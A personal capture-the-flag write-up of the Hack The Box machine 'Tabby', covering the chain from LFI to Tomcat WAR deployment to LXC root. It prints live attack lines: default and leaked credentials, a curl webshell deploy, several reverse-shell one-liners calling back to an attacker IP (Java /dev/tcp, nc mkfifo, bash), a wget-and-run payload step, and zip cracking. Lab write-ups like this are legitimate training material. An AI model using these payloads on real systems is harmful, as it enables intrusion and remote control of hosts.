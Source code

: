 # <span style="color:#FF5050">Machine #23 Tabby</span>  


## <span style="color:#FF5050">Checklist 🤓   

- [x] LFI
- [ ] ~~Maybe I can access data through this path somehow `/var/lib/tomcat9/webapps/ROOT/index.html`~~
- [x] Scower the RUNNING.txt file for something.
- [ ] Maybe I can access data through this path somehow `/var/lib/tomcat9/webapps/ROOT/index.html`
- [x] Try default credentials for `/html/manager`.
- [ ] Bruteforce the `/html/manager` login credentials.  
- [ ] Improper Authentication (Doesn't seem to have an available exploit) -- The version seems to be vulnerable.
- [x] Deserialization of untrusted data (the persistence manager thing). To replace the cookie with a path
- [x] Log Poisoning
- [x] Try default credentials for `/html/manager` and `/html/host-manager`.
- [ ] Bruteforce the `/html/manager` login credentials.

<br/><br/>


## <span style="color:#FF5050">What Do We Have? 🤔🤔 

* A `http://10.10.10.194:8080/manager/html` manager page that prompts me for a username and a password (Tried the defaults and they didn't work).
* Default credentials that could be the ones  
```
admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat
```  

* My theory so far is that I find the credentials of the tomcat manager somehow (because it's not BRUTEFORCE) with the lfi then I can use the war exploit.
* I looked everywhere for a Tomcat exploit that could work but there isn't anything for the specific version and the specific circumstances. I found the Persistence Manager but that doesn't work. I found another couple of ones but the version I have doesn't seem to be vulnerable to them. So what now?
* I looked into apache exploits too but I didn't find anything there.
* Now I'm thinking maybe the fact that the website is a hosting service maybe this could mean something but I researched Tomcat and hosting and nothing came out of that.
* The LFI doesn't seem to give me anything. I found out that I could view the page's `news.php`'s code but also what the hell is the point of this? The code doesn't contain anything that I could exploit to go further in attacking the system.  
* After looking at the writeup's first part it turned out that I had to look for the right path of `tomcat-users.xml` it's not that I don't have authorization to read it, no, it seems that I was providing the wrong path.
* The `tomcat-users.xml`'s path turned out to be `/usr/share/tomcat9/etc/tomcat-users.xml` after thoroughly looking and googling and trying paths that did not work.
* Why should I have persued this file specifically because I clearly needed to get authenticated and the unauthorized page showed me that the creds can be found in this file.
* The creds `<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>`

```
fcrackzip -b -v -u ash_backup.zip -bvu 
``` 


FOUND ASH's password `admin@it` he used the same password for the zipped file that he used for his user on the os.
/snap/bin/lxc image import ./alpine.tar.gz --alias myimage

<br/><br/>


## <span style="color:#FF5050">Random Notes👀
  
* PHP is being used in the backend.  
* So LFI gives me access to files, let's call it, outside of the sandboxed environment but it does not allow me to read files I don't have privilege to read. So what am I supposed to do with it?
* The `/files` directory returns code `403` and because of that if I was able to upload a file in the tomcat maybe I'll be able to execute it through this directory if the file was uploaded in here.
* The `http-proxy-open` thing on nmap is a bit weird maybe I should look more into it.
<br/><br/>
* I will use the manual exploit to try and understand it as much as I can (The upload war thing).
* It seems that I can't upload a .war file unless I have the right privileges which can be acquired if I have the roles admin, manager or manager-script and according to the `tomcat-users.xml` file I have the `manager-script` role.  
* The path was right infront of me in the HackTricks page in the RCE section. What lesson did I learn? Read articles properly and don't skip stuff.
* I will be creating a .war webshell and then I will upload it with this line of code  
  ```
  curl --upload-file webshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/webshell"
  ```  
* After creating the war file and uploading it using the previous curl code I can just visit the path `/webshell` with `?cmd=[COMMAND]` which will lead to executing the webshell.  
* Imma try and upload a reverse shell from the beginning and not a webshell  
  ```java
  Runtime r = Runtime.getRuntime();
  Process p = r.exec("/bin/bash -c 'exec 5<>/dev/tcp/10.10.14.8/1234;cat <&5 | while read line; do $line 2>&5 >&5; done'");
  p.waitFor();
  ```

  ```
  rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f
  ```
  ```
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```
<br/><br/>  


## <span style="color:#FF5050">How Did I Own This Shit 😎🥳  

1. At first I looked through the web service and the tomcat service more than enough time which was not really necessary because I just had to find the right path to get to `tomcat-users.xml` I just was using the wrong paths. But the problem is how can I tell when I have an LFI and a file didn't show that I've been using the wrong path and not that I don't have permission to use it because, technically, the LFI is on the web service which means the `www-data` user and the file I'm trying to read is on the tomcat service which has another user `tomcat`? This thing has been nagging me all the time. How can I tell???  
2. Any how after you open the `tomcat-users.xml` file there's not much left to own the machine just that I get a password we can then authenticate as `host-manager` and then we can use the infamous .war exploit.
3. I used `msfvenom`'s java reverse shell (The only one that worked).
4. Then I got access as tomcat on the system.
5. Found out that the `/files` directory in the web service is owned by `ash` which was a bit weird and was kind of a hint that told me that maybe this directory will give me ash and it certainly did. There was a zipped file inside of it, I transferred this file to my box and tried to crack it using `fcrackzip` at first I tried the bruteforce mode but it didn't work and it didn't make any sense either os I tried dictionary mode with rockyou and it worked I cracked the password of the zipped file because it was password protected.
6. Anyway the contents of the zipped backup file weren't as important as the password because poor ash used the same password for their user on the OS which gave me access to him.
7. He was in group LXC so it wasn't that hard to get root afterwards. The priv esc of this type is all over the internet but I wanted to understand it fully why is it that when I create a container with alpine with this group that I can access the root? I still don't get that I want to research this more.

<br/><br/>

## <span style="color:#FF5050">Writeups ✍🏽📓   

### The Official HTB Writeup  

* When the reverse shell didn't work this is what they did which is actually a good idea
    <blockquote>
    Getting a reverse shell using the above command didn't work. Let's create a reverse shell, start an
    HTTP server locally and download it to the remote machine
    </blockquote>

    * Like this code --> `echo "0<&196;exec 196<>/dev/tcp/10.10.14.3/5555; sh <&196 >&196 2>&196" > shell
php -S 0.0.0.0:8000`.    

  * Then from the webshell I enter the following   
    ```
    wget http://10.10.14.3:8000/shell-x64.elf -O /tmp/shell
    chmod +x /tmp/shell
    bash /tmp/shell
    ```

<br/><br/> 
